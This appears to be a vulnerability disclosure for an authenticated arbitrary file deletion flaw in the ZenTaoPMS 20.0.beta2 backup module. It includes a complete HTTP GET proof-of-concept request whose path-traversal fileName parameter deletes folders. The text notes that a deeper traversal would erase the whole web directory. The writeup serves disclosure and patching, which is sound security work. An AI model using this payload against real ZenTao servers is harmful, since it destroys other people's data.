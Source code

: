 # Any file deletion vulnerability exists in ZenTaoPMS-20.0.beta2

There is a vulnerability in the delete method in ZenTaoPMS-20.0.beta2-php7.2_7.4\zentaopms\module\backup\control.php.

![image](https://github.com/sec-Kode/cve2/assets/46676387/27165e11-c723-4d00-8b87-7209c92af813)
There is an unlink dangerous function here, and there is no filtering, so any file deletion operation can be performed.

And it will be deleted here in the form of the entire folder.

For the convenience of demonstration, create a folder named kode in the F:\phpstudy_pro\WWW\127.0.0.1\ZenTaoPMS-20.0.beta2-php7.2_7.4\zentaopms directory

![image](https://github.com/sec-Kode/cve2/assets/46676387/b1f83c55-94f2-4f1b-95d3-186d0e260144)

This vulnerability requires logging into the website backend to operate.

After logging in to the backend, we can use the following payload to delete the entire kode folder.

```
GET /www/index.php?m=backup&f=delete&fileName=../../kode HTTP/1.1
Host: 127.0.0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.2/www/index.php?m=index&f=app&t=html
X-ZIN-Options: {"selector":["body>*","title>*","#configJS"],"type":"list"}
X-ZIN-App: admin
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: lang=zh-cn; device=desktop; theme=default; hideMenu=false; zentaosid=f4b230b8e5e69f9f22d9eb70df23e7db4edeeab5; vision=rnd; tab=admin; zentaosid=7bit6mr0sjtg18t0037sc62c5g; lang=zh-cn; device=desktop; theme=default; windowWidth=1094; windowHeight=908; vision=rnd; XDEBUG_SESSION=PHPSTORM
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

The kode folder was deleted successfully

![image](https://github.com/sec-Kode/cve2/assets/46676387/e5bec4b3-9e98-46e3-8013-03d06a3956af)

![image](https://github.com/sec-Kode/cve2/assets/46676387/361df370-29fc-49cd-bc72-7b5537e88d90)

If the deletion path of the payload is ../../../, the entire website directory will be deleted, causing all directories on the web to be deleted.

